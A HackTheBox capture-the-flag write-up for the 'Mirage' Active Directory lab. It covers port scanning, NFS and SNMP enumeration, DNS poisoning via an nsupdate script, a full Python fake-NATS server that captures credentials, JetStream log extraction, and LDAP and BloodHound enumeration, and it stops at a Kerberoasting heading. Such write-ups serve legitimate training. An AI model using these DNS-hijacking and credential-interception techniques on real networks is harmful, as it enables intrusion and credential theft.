# HackTheBox Writeup - Mirage



## 🎯 Objectives & Tasks

1. Submit **🏴 User Flag**
2. Submit **🚩 Root Flag**

---

## 🔍 Reconnaissance (MITRE ATT&CK: Reconnaissance)

### 🛠️ RustScan

Using `RustScan`, we rapidly identify active ports and services:

```bash
rustscan -a 10.10.11.78 -t 2000 -b 1500 --ulimit 5000 --scan-order Serial -- -sC -sV --script vuln -T4 -Pn -v
```

**Result:**

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.78:53
Open 10.10.11.78:88
Open 10.10.11.78:111
Open 10.10.11.78:139
Open 10.10.11.78:135
Open 10.10.11.78:389
Open 10.10.11.78:445
Open 10.10.11.78:464
Open 10.10.11.78:593
Open 10.10.11.78:636
Open 10.10.11.78:2049
Open 10.10.11.78:3268
Open 10.10.11.78:3269
Open 10.10.11.78:4222
Open 10.10.11.78:5985
Open 10.10.11.78:9389
Open 10.10.11.78:47001
Open 10.10.11.78:49665
Open 10.10.11.78:49664
Open 10.10.11.78:49667
Open 10.10.11.78:49666
Open 10.10.11.78:49668
Open 10.10.11.78:53268
Open 10.10.11.78:56369
Open 10.10.11.78:56380
Open 10.10.11.78:56381
Open 10.10.11.78:56395
Open 10.10.11.78:56400
Open 10.10.11.78:56419
Open 10.10.11.78:56435
Scanning 30 services on dc01.mirage.htb (10.10.11.78)
Nmap scan report for dc01.mirage.htb (10.10.11.78)
Host is up, received user-set (0.016s latency).
Scanned at 2025-07-24 21:53:03 UTC for 334s

PORT      STATE SERVICE         REASON  VERSION
53/tcp    open  domain?         syn-ack
88/tcp    open  kerberos-sec    syn-ack Microsoft Windows Kerberos (server time: 2025-07-26 04:55:24Z)
111/tcp   open  rpcbind         syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc           syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn     syn-ack Microsoft Windows netbios-ssn
3268/tcp  open  ldap            syn-ack Microsoft Windows Active Directory LDAP (Domain: mirage.htb0., Site: Default-First-Site-Name)
4222/tcp  open  vrml-multi-use? syn-ack
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GenericLines: 
|     INFO {"server_id":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","server_name":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":5328,"client_ip":"10.10.14.213","xkey":"XCSA7P7XYSWXVKM6J3LHBLOUMFMMXQKWP5SK7F3KWQWILHTPNBUSF7AW"} 
|     -ERR 'Authorization Violation'
|   GetRequest: 
|     INFO {"server_id":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","server_name":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":5329,"client_ip":"10.10.14.213","xkey":"XCSA7P7XYSWXVKM6J3LHBLOUMFMMXQKWP5SK7F3KWQWILHTPNBUSF7AW"} 
|     -ERR 'Authorization Violation'
|   HTTPOptions: 
|     INFO {"server_id":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","server_name":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":5330,"client_ip":"10.10.14.213","xkey":"XCSA7P7XYSWXVKM6J3LHBLOUMFMMXQKWP5SK7F3KWQWILHTPNBUSF7AW"} 
|     -ERR 'Authorization Violation'
|   NULL: 
|     INFO {"server_id":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","server_name":"NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":5327,"client_ip":"10.10.14.213","xkey":"XCSA7P7XYSWXVKM6J3LHBLOUMFMMXQKWP5SK7F3KWQWILHTPNBUSF7AW"}
5985/tcp  open  http            syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php

Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Nmap done: 1 IP address (1 host up) scanned in 343.80 seconds
```

> We discover open ports related to key services like `DNS`, `Kerberos`, `SMB`, `LDAP`, and more, indicating a typical **Active Directory** environment.

### ✅ Summary Table

| Port(s)           | Service                      | Purpose                                    |
| ----------------- | ---------------------------- | ------------------------------------------ |
| 53                | DNS                          | Name resolution                            |
| 88, 464           | Kerberos                     | Auth (88) and password change (464)        |
| 111, 135          | RPC services                 | UNIX RPC (rpcbind) & Windows RPC mapping   |
| 139, 445          | SMB/NetBIOS                  | File/printer sharing                       |
| 389, 636          | LDAP/LDAPS                   | Directory queries (unencrypted/secure)     |
| 2049              | NFS                          | Unix/Linux network file share              |
| 3268, 3269        | Global Catalog               | AD forest-wide search (unencrypted/secure) |
| 5985, 47001, 9389 | WinRM/ADWS                   | Windows remote management & AD services    |
| 4222              | Possibly NATS/custom service | Messaging or app-specific endpoint         |
| 49xxx–56xxx       | Ephemeral ports              | Dynamic client/service communication       |

---

### 📝 Tenable Nessus Findings



> Mountable `NFS-Share`.

- 📁 **NFS Share**: User mountable share named `MirageReports`



> Active Directory informations, this information can be used to add `DNS` entries.

- 🔐 **LDAP Information Disclosure**: Potential for `DNS` manipulation



> A common misconfiguration flagged as `CVE-1999-0517`. This lets us query the `SNMP` agent with read-only access.

- 📡 **SNMP Default Community Name**: public allows basic enumeration

---

## 🚀 Initial Access / Execution

### 📂 Mounting NFS Share

```bash
mkdir mnt
sudo mount -t nfs 10.10.11.78:/MirageReports mnt
```

### 🔎 Enumerate Sensitive Files

```bash
┌──(kali㉿kali)-[~/…/Mirage/Reconnaissance/mnt/Mirage]
└─$ lsa
total 17493
drwxrwxrwx+ 2 nobody nogroup      64 May 26 17:41 .
drwxrwxrwx  3 kali   kali       4096 Jul 24 16:17 ..
-rwx------+ 1 nobody nogroup 8530639 May 20 11:08 Incident_Report_Missing_DNS_Record_nats-svc.pdf
-rwx------+ 1 nobody nogroup 9373389 May 26 17:37 Mirage_Authentication_Hardening_Report.pdf
```

> Missing DNS record entry for `nats-svc`

:::info
**NATS** is an open-source, high-performance messaging system (message-oriented middleware) developed in Go, under the **Cloud Native Computing Foundation (CNCF)**. It supports lightweight pub/sub, request/reply messaging, queue groups, and persistent streaming via **JetStream**.

You need **NATS** when your architecture involves distributed services, tight latency requirements, real-time data exchange, or scalable event-driven workflows. It's built to glue modern systems together even under high volume or low-trust conditions.
:::

### 🔎 SNMP Enumeration

- The `public` community string is essentially an unauthenticated password for **SNMPv1/v2c**.
- With it, we can use tools like `snmpwalk` or `onesixtyone` to extract system information — **vendor**, **uptime**, **installed software**, **open ports**, **running processes**, etc.

```bash
snmpwalk -v2c -c public -r 5 -t 10 10.10.11.78 .1 > snmp-output.txt
```

```bash
snmpwalk -v1 -c public -r 5 -t 15 10.10.11.78 .1 > snmp-output.txt
```



---

## 🚩 Finding `nats-svc`

- `nats-svc.mirage.htb` has no DNS record.
  - This information comes from `Incident_Report_Missing_DNS_Record_nats-svc.pdf`

---

## 🚀 Initial Access & Execution (MITRE ATT&CK: Initial Access, Execution)

### 📝 Add DNS entry on our host

We can use this later for `DNS` poisoning, since the server lacks the record.

```bash
sudo nano /etc/hosts
```



> `10.10.11.78     dc01.mirage.htb mirage.htb nats-svc.mirage.htb`

### 🕸️ DNS poisoning

Since the DNS allows **dynamic updates** from untrusted sources, we can abuse this.  
We create a `dnsupdate.txt` file, which will point to our `NATS` *(fake)* server.

```bash
nano dnsupdate.txt
```

**`dnsupdate.txt`**

```bash
server 10.10.11.78
zone mirage.htb
update delete nats-svc.mirage.htb A
update add nats-svc.mirage.htb 60 A 10.10.14.213
send
```

> Get your IP with `ip a` and select the IP from `tun0`.

:::info
`nsupdate` is a command-line tool (part of BIND) used to perform dynamic DNS updates (automatically add, modify, or delete DNS records) without editing zone files or restarting the DNS server. It works with DNS servers that support RFC 2136—such as BIND or **Microsoft DNS** with **dynamic updates enabled**.
:::

Injected fake DNS entry:

```bash
nsupdate dnsupdate.txt
```

### 🎣 Fake `NATS` Server on Port `4222`

This is our opportunity!  
Set up a fake NATS server to capture valid user credentials:

```bash
nano fake_nats.py
```

**`fake_nats.py`**

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Title: Lightweight Fake NATS Credential Interceptor
Author: Alessandro Salucci
Date: 2025-07-25
Description: Lightweight NATS honeypot that mimics a real NATS server and logs any credentials or tokens sent via the CONNECT command.
Requirements: Python 3.x
Usage: Run the script on a host. It will listen on TCP port 4222 and handle multiple client connections concurrently.
"""

import socket
import threading
import json
from datetime import datetime

HOST = '0.0.0.0'
PORT = 4222

INFO_BANNER = {
    "server_id": "NA6KZE4P3FGTQVKIQBWPIDC7OGEMHL53I74IOCJPYSYGKG35MMCKX66Q",
    "version": "2.11.3",
    "proto": 1,
    "host": HOST,
    "port": PORT,
    "auth_required": True,
    "tls_required": False,
    "max_payload": 1048576,
}

def log(msg):
    print(f"[{datetime.now().strftime('%Y-%m-%d %H:%M:%S')}] {msg}")

def handle_client(conn, addr):
    log(f"🔌 Connection from {addr[0]}:{addr[1]}")
    try:
        # Send NATS-like INFO line
        info_line = f"INFO {json.dumps(INFO_BANNER)}\r\n"
        conn.send(info_line.encode())

        data = conn.recv(2048)
        if not data:
            return

        decoded = data.decode(errors='ignore').strip()
        log(f"📥 RECEIVED: {repr(decoded)}")

        # Look for CONNECT command
        # Split by CRLF, process each line individually
        lines = decoded.split('\r\n')
        for line in lines:
            if line.startswith("CONNECT "):
                try:
                    json_part = line.split("CONNECT ", 1)[1]
                    creds = json.loads(json_part)
        
                    log(f"🔐 CONNECT PAYLOAD:\n{json.dumps(creds, indent=2)}")
        
                    for key in ["user", "pass", "auth_token", "jwt", "sig"]:
                        if key in creds:
                            log(f"🎯 {key.upper()} CAPTURED: {creds[key]}")
        
                except json.JSONDecodeError:
                    log(f"⚠️ Failed to parse CONNECT JSON: {line}")

        conn.send(b"+OK\r\n")
    except Exception as e:
        log(f"❌ Error with {addr}: {e}")
    finally:
        conn.close()
        log(f"🔌 Disconnected {addr[0]}:{addr[1]}")

def start_server():
    log(f"🚀 Fake NATS Server started on {HOST}:{PORT}")
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server:
        server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        server.bind((HOST, PORT))
        server.listen(10)
        log("📡 Waiting for connections...")

        while True:
            try:
                conn, addr = server.accept()
                threading.Thread(target=handle_client, args=(conn, addr), daemon=True).start()
            except KeyboardInterrupt:
                log("🛑 Server shutdown requested by user")
                break
            except Exception as e:
                log(f"⚠️ Server error: {e}")

if __name__ == '__main__':
    print("🎭 Mini NATS Credential Interceptor")
    print("=" * 40)
    start_server()
```

> Once the DC resolves **nats-svc** to our IP, it connects, authenticates, and we intercept credentials.

---

## 🚩 Finding `NTLM`

- `NTLM disabled`
  - This information comes from `Mirage_Authentication_Hardening_Report.pdf`

---

### 🛠️ Kerberos Configuration

We make sure Kali is ready to communicate via **Kerberos** by configuring `/etc/krb5.conf`:

```bash
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = MIRAGE.HTB


[realms]
    MIRAGE.HTB = {
        kdc = dc01.MIRAGE.HTB
        admin_server = dc01.MIRAGE.HTB
        default_domain = MIRAGE.HTB
    }


[domain_realm]
    .MIRAGE.HTB = MIRAGE.HTB
    MIRAGE.HTB = MIRAGE.HTB
```

### 🔐 Intercept Credentials

```bash
python3 fake_nats.py
```



> Successfully intercepted credentials.

---

## ⚙️ Install [`natscli`](https://github.com/nats-io/natscli)

Now we install and configure `natscli` to interact using the credentials we captured:

```bash
go install github.com/nats-io/natscli/nats@latest
```

---

## 🔐 Credential Access & Validation (MITRE ATT&CK: Credential Access)

### 🛠️ Configure NATS Context

Run this to create a context with the credentials we captured:

```bash
~/go/bin/nats context add dev-nats \
  --server nats://dc01.mirage.htb:4222 \
  --user Dev_Account_A \
  --password 'REDACTED' \
  --description "Dev access"
```

> Change the password according the credentials!

**Result:**

```bash
NATS Configuration Context "dev-nats"

  Description: Dev access
  Server URLs: nats://dc01.mirage.htb:4222
     Username: Dev_Account_A
     Password: ******************
         Path: /home/kali/.config/nats/context/dev-nats.json
```

### ✅ Validated

After that, check:

```bash
nats context ls
```

```bash
╭────────────────────────╮
│     Known Contexts     │
├──────────┬─────────────┤
│ Name     │ Description │
├──────────┼─────────────┤
│ dev-nats │ Dev access  │
╰──────────┴─────────────╯
```

### 🌐 Connect

```bash
nats --context dev-nats sub ">" --count 10
```

**Result:**

```java
19:13:13 Subscribing on > 
[#1] Received on "$JS.API.STREAM.INFO.auth_logs" with reply "_INBOX.gd1UOUVEMVZolJWSF7HAsO.soXhZvRF"
nil body
[#2] Received on "_INBOX.gd1UOUVEMVZolJWSF7HAsO.soXhZvRF"
[#3] Received on "$JS.EVENT.ADVISORY.API"
[#4] Received on "$JS.API.STREAM.INFO.auth_logs" with reply "_INBOX.P99ZjhQRpRyEiMYd52d0MC.EA77ERjk"
nil body
[#5] Received on "_INBOX.P99ZjhQRpRyEiMYd52d0MC.EA77ERjk"
[#6] Received on "$JS.EVENT.ADVISORY.API"
[#7] Received on "$JS.API.STREAM.INFO.auth_logs" with reply "_INBOX.diU40sVxEfqfizIupKY9Rm.wHtODNvV"
nil body
[#8] Received on "_INBOX.diU40sVxEfqfizIupKY9Rm.wHtODNvV"
[#9] Received on "$JS.EVENT.ADVISORY.API"
[#10] Received on "$JS.API.STREAM.INFO.auth_logs" with reply "_INBOX.Jun95XAwNOjdf7pAAULgnc.QzvaGxOO"
nil body
```

> We observed live traffic including **advisory events** and **auth_logs**.

---

## 📜 Extracting Historical Logs via `JetStream` (MITRE ATT&CK: Collection)

### ✅ 1. Create a Durable Pull-Based Consumer

This sets up a new consumer named `audit-reader` for the `auth_logs` stream.

```bash
nats --context dev-nats consumer add auth_logs audit-reader --pull --ack=explicit
```

You will be prompted to enter the following:

- **Start policy**: `all`
  - Reads from the beginning of the stream

- **Replay policy**: `instant`
  - Replay messages immediately, not in real time

- **Filter**: `logs.auth`
  - Only retrieve messages published to this subject

:::tip
You can also bypass prompts with flags:

```bash
nats --context dev-nats consumer add auth_logs audit-reader \
  --pull --ack=explicit \
  --filter logs.auth \
  --deliver all \
  --replay instant
```

:::

**Result:**

```bash
Information for Consumer auth_logs > audit-reader created 2025-07-26 02:25:25

Configuration:

                    Name: audit-reader
               Pull Mode: true
          Filter Subject: logs.auth
          Deliver Policy: All
              Ack Policy: Explicit
                Ack Wait: 30.00s
           Replay Policy: Instant
         Max Ack Pending: 1,000
       Max Waiting Pulls: 512

State:

            Host Version: 2.11.3
      Required API Level: 0 hosted at level 1
  Last Delivered Message: Consumer sequence: 0 Stream sequence: 0
    Acknowledgment Floor: Consumer sequence: 0 Stream sequence: 0
        Outstanding Acks: 0 out of maximum 1,000
    Redelivered Messages: 0
    Unprocessed Messages: 5
           Waiting Pulls: 0 of maximum 512
```

> `JetStream` pull-based consumer audit-reader is now **successfully set up** and **ready to retrieve 5 unprocessed log messages from** the `auth_logs` stream.

### 🎯 Pull the Messages

```bash
nats --context dev-nats consumer next auth_logs audit-reader --count=5 --wait=5s --ack
```

### 🔑 Credentials Captured



---

## 🔐 Testing the new credentials (MITRE ATT&CK: Credential Access)

Ensure you are in time sync with the DC:

```bash
sudo ntpdate dc01.mirage.htb
```

**Result:**

```bash
2025-07-26 02:33:16.801412 (-0400) +111734.362817 +/- 0.008107 dc01.mirage.htb 10.10.11.78 s1 no-leap
CLOCK: time stepped by 111734.362817
CLOCK: time changed from 2025-07-24 to 2025-07-26
```

Lets test the captured credentials against `LDAP`.

```bash
nxc ldap 10.10.11.78 -u david.jjackson -p 'REDACTED' -k
```



### 👥 Enumerate domain users

```bash
nxc ldap 10.10.11.78 -u david.jjackson -p 'REDACTED' -k --users
```

**Result:**

```bash
LDAP        10.10.11.78     389    DC01             [*] None (name:DC01) (domain:mirage.htb)
LDAP        10.10.11.78     389    DC01             [+] mirage.htb\david.jjackson:REDACTED 
LDAP        10.10.11.78     389    DC01             [*] Enumerated 10 domain users: mirage.htb
LDAP        10.10.11.78     389    DC01             -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.11.78     389    DC01             Administrator                 2025-06-23 17:18:18 0        Built-in account for administering the computer/domain      
LDAP        10.10.11.78     389    DC01             Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.10.11.78     389    DC01             krbtgt                        2025-05-01 03:42:23 0        Key Distribution Center Service Account                     
LDAP        10.10.11.78     389    DC01             Dev_Account_A                 2025-05-27 10:05:12 0                                                                    
LDAP        10.10.11.78     389    DC01             Dev_Account_B                 2025-05-02 04:28:11 1                                                                    
LDAP        10.10.11.78     389    DC01             david.jjackson                2025-05-02 04:29:50 0                                                                    
LDAP        10.10.11.78     389    DC01             javier.mmarshall              2025-07-26 01:30:13 0        Contoso Contractors                                         
LDAP        10.10.11.78     389    DC01             mark.bbond                    2025-06-23 17:18:18 0                                                                    
LDAP        10.10.11.78     389    DC01             nathan.aadam                  2025-06-23 17:18:18 0                                                                    
LDAP        10.10.11.78     389    DC01             svc_mirage                    2025-05-22 16:37:45 0        Old service account migrated by contractors 
```

---

## 🩸 BloodHound Enumeration (MITRE ATT&CK: Discovery)

With valid credentials and Kerberos access, we can fire up `bloodhound-python`:

```bash
bloodhound-python -u david.jjackson -p 'REDACTED' -k -d mirage.htb -ns 10.10.11.78 -c All --zip
```

This completes the enumeration of:

- Domain Users
- Groups & OUs
- Computers & Sessions
- Trusts
- GPOs

```bash
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: mirage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.mirage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.mirage.htb
INFO: Found 12 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 21 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.mirage.htb
INFO: Done in 00M 03S
INFO: Compressing output into 20250726024046_bloodhound.zip
```

The output is ready to be uploaded to **BloodHound** for privilege escalation analysis.

:::tip
If you don't have installed `BloodHound`.

`sudo apt update && sudo apt install -y bloodhound`

After installation, run BloodHound’s configuration script:

`sudo bloodhound-setup`

This will initialize the necessary services and configurations.

Open a browser and navigate to `http://localhost:7474`.
Login using the **default credentials**:

- **username:** `neo4j`
- **password:** `neo4j`

Now that you’ve updated the Neo4j password, update the BloodHound API config file to reflect the change.

> replace the password `"secret": "neo4j"`

`sudo nano /etc/bhapi/bhapi.json`

You can finally run bloodhound with the default credentials. You will be asked to set a new secure password.

`sudo bloodhound`

- **username**: `admin`
- **password**: `admin`

:::

### Kerberoastable user `nathan.aadam`

